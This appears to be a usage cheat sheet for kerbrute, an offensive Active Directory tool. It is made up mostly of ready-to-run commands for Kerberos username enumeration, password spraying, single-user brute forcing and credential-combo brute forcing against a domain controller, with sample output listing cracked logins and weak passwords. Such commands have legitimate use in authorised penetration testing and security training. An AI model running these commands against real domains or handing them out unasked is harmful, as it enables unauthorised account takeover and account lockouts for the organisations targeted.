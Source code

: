 ### Basic Usage

#### Username Enumeration (Safest)
```bash
# Basic user enumeration
./kerbrute userenum -d domain.local usernames.txt --dc 10.10.10.10

# Verbose output
./kerbrute userenum -d domain.local usernames.txt --dc 10.10.10.10 -v

# Save output to file
./kerbrute userenum -d domain.local usernames.txt --dc 10.10.10.10 -o valid_users.txt

# Example output:
# [+] VALID USERNAME: administrator@domain.local
# [+] VALID USERNAME: jdoe@domain.local
# [+] VALID USERNAME: svc_backup@domain.local
```

#### Password Spraying (Careful - Can Lock Accounts!)
```bash
# Single password against user list
./kerbrute passwordspray -d domain.local users.txt Password123

# With domain controller specified
./kerbrute passwordspray -d domain.local users.txt Welcome2024! --dc 10.10.10.10

# Safe mode (abort if lockout detected)
./kerbrute passwordspray -d domain.local users.txt Password1 --safe

# Example output:
# [+] VALID LOGIN: jdoe@domain.local:Password123
# [+] VALID LOGIN: svc_backup@domain.local:Password123
```

#### Brute Force Single User (High Risk!)
```bash
# Brute force specific user
./kerbrute bruteuser -d domain.local passwords.txt administrator

# Only if you're certain about lockout policy!
./kerbrute bruteuser -d domain.local common_passwords.txt service_account --dc 10.10.10.10
```

#### Brute Force Credential Combos
```bash
# Username:password combinations from file
./kerbrute bruteforce -d domain.local combos.txt

# Read from stdin
cat combos.txt | ./kerbrute bruteforce -d domain.local -

# Format of combos.txt:
# admin:password
# user1:Password123
# svc_backup:backup123
```
